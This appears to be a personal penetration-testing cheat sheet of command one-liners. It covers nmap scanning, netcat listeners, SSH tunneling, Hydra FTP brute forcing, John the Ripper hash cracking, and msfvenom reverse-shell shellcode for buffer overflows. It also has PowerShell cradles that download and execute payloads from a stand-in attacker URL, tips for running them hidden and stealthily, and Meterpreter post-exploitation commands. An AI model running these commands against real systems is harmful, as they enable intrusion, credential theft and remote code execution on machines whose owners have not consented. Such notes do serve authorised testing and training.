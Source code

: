 
# vpn connection

sudo openvpn



# Terminator keybinds 

//move around by word
ctrl + fn + left or right arrow

//delete whole word 
alt + backspace

//split horizontally 
ctrl + super + c

//split vertically
ctrl + super + v

//close terminal
shift + ctrl + w

//restore default zoom
ctrl + 0

//fullscreen a specific pane 
ctrl + shift + Z




# Typical nmap commands 

//update scripts database
nmap --script-updatedb

//ping sweep, we can run this first to discover hosts
nmap -sn 

//also we can try running no ping to see any extra hosts hidden behind firewalls
nmap -n -sn

//we have hosts we can scan targets to check OS and service/version and run default scripts
nmap -T4 -O -sV -sC

//if all ports are filtered on a host be sure to check for openings on udp port 161/ (SNMP)
nmap -sU -p 161,162 




# Netcat commands

//setup listener
nc -lvnp <port>

//file transfer recieving end
nc -l -p 1234 > output.file

//sending end
nc -w 3 [target] 1234 < output.file



# grep for searching through large files

grep -i "string goes here" filename.txt





# SSH tunneling

//-L initiates a tunnel
ssh -L localport:target:remoteport Name@sshserver.com



# smbclient

smbclient \\\\targetmachine\\some-share -U username



# MSF Venom

//create starting payload for BOF -l specifes length/size
msf-pattern_create -l <payloadsize>


//get offset
msf-pattern_offset -l <length> -q <EIP>


//BOF shellcode // -b "\x00" specifies to remove all null bytes, any other bad bytes can be specified also
msfvenom -p windows/meterpreter/reverse_tcp LHOST=eth0 LPORT=4444 -f py -b "\x00"



# add/view routes

route print

ip route add <targetIP> via <gateway>




# Hydra FTP brute forcing

hydra -t 20  -l /home/kali/Desktop/userslist -P /home/kali/Desktop/password.txt -vV <targetIP> ftp


# John The Ripper password cracking 


//this one for windows passwords
john --wordlist=/home/kali/Desktop/rockyou.txt --format=NT /home/kali/Desktop/hashdump.txt

//this one for linux passwords, first unshadow them, then run John

unshadow [passwdfile] [shadowfile] > [output file name]

john --wordlist=/usr/share/john/password.lst [output file name]


# enum4linux 


enum4linux.pl -a <targetIP> | tee enum4linux.log



# PowerShell

// in memory download cradle. if using cmd prompt, use single quotes instead. This downloads and executes a
remotely hosted PS script

PS C:\> iex (New-Object Net.WebClient).DownloadString("http://attacker_url/script.ps1")

//DownloadFile method. Do not use this if trying to remain stealthy. The local var is where the file will be
saved to

PS C:\> $downloader = New-Object System.Net.WebClient
PS C:\> $payload = "http://attacker_url/payload.exe"
PS C:\> $local_file = "C:\programdata\payload.exe"
PS C:\> $downloader.DownloadFile($payload,$local_file)

//If trying to remain stealthy, also make sure to use the execution policy bypass and window hidden options

C:\> powershell.exe -ExecutionPolicy Bypass -Window Hidden .\downloader.ps1


//there is a powershell port-scanner script if needed in the offensive powershell folder



# Meterpreter 

search -d /pathtobeginsearch -f *.extension

//helpful post-exploit enum scripts here
run post/windows/gather/